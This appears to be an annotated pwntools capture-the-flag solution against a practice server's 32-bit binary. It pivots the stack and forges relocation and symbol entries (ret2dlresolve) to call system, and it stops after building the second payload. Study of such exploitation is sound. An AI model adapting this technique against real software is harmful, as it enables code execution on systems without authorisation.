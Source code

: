 ```python
#coding:utf-8
from pwn import *
context(arch='i386',os='linux',log_level='debug')
p=remote('node4.buuoj.cn',28789)#***
#p=process('./bof')#***
e=ELF('./bof')#***
#gdb.attach(p)
plt0 = e.get_section_by_name('.plt').header.sh_addr
rel_plt = e.get_section_by_name('.rel.plt').header.sh_addr
dynsym = e.get_section_by_name('.dynsym').header.sh_addr
dynstr = e.get_section_by_name('.dynstr').header.sh_addr
#先初始化一下一会要用到的段首地址
offset=112#***
read_plt_addr=e.plt['read']
four_pop_ret=0x08048628#***
leave_ret_addr=0x0804851A#***
base_addr=0x0804a800#***
#这个base_addr是我们要把栈迁移的地方，用gdb发现这一部分是可写的，因此我们选择迁移到这里

fake_sym_addr=base_addr+32#这个fake_sym_addr是Elf32_Sym结构的首地址
#原本是要把伪造的ELf32_Sym结构写在偏移32的位置的，但是还要对齐，因此下面还要再加align
align=0x10-((fake_sym_addr-dynsym)&0xf)#Elf32_Sym结构是16字节，因此地址也需要和16字节对齐，二者地址相减
#然后只取最后一位，就可以理解成二者的地址是放在了一个结构里面（但其实不是这样的，不过可以理解成这样，画个图就懂了）
#然后最后的值被0x10所减，求的就是fake_sym_addr距离16个字节所补齐差的字节数
#至于为什么减的是dynsym，淦，因为dynsym一定是被对齐了的，因此它需要找一个对齐的表来做参考啊
fake_sym_addr+=align#最后再加上这个为了补齐的字节才是最后我们要构造的fake_sym的地址

st_name=fake_sym_addr+0x10-dynstr#这个st_name就是dynstr段首地址距离目标函数名称的偏移
#我们把最终的system函数名称布置到了fake_sym_addr+0x10的位置，为啥加0x10?因为Elf32_Sym的结构大小为16字节
st_info=12#这个其实是由两部分组成，分别是前24字节的st_bind和后八字节的st_type（不过我感觉没必要区分，直接加起来就行）
#另外就是这个12是可以在IDA里面通过dynsym来查到
fake_sym=p32(st_name)+p32(0)+p32(0)+p32(st_info)

r_offset=e.got['read']#这个是ret.plt结构中的第一个成员，也就是解析之后的真实地址写入的地方
r_sym=(fake_sym_addr-dynsym)/0x10#这个我不是太确定，我感觉除0x10是因为Elf32_Sym的大小是16字节
# 这个偏移应该是以一个结构（16字节）为单位的
r_type=0x7#这个0x7是重定位的一种类型，指的是导入函数，进入_dl_fixup函数里面，还会检查这是不是0x7
r_info=(int(r_sym)<<8)+(r_type&0xf)#这里<<8是因为，最后还要再>>8，从而保持正常，而&0xf，其实没用，不写也行
reloc_index=base_addr-rel_plt+24#从rel.plt到base_addr+28的偏移也就
# 是执行_dl_runtime_resolve的第二个参数，而加28的原因是，我们将rel.plt结构布置在了距离base_addr偏移24的位置
fake_rel_plt=p32(r_offset)+p32(r_info)#这里就是伪造的rel.plt结构
payload1=offset*'a'
payload1+=p32(read_plt_addr) #劫持执行流，让程序再执行一次read，将我们想要伪造的内容存入我们指定的地方
payload1+=p32(four_pop_ret) #这里需要用连续三个pop把read的参数给从栈顶清空，不然ret的时候就会出现问题
payload1+=p32(0)
payload1+=p32(base_addr)
payload1+=p32(100)
payload1+=p32(base_addr-4)
payload1+=p32(leave_ret_addr)
p.send(payload1)
#gdb.attach(p)
pause()

payload2=p32(plt0)
payload2+=p32(reloc_index)
payload2+='bbbb'
payload2+=p32(base_addr+80) #这个放置的是system的参数的位置
payload2+='bbbb'
payload2+='bbbb'#由于read的参数是三个，而system的参数只用了第一个，因此另外两个参数需要填充一下垃圾数据
payload2+=fake_rel_plt
payload2+=align*'a'
payload2+=fake_sym
payload2+='system\x00'
```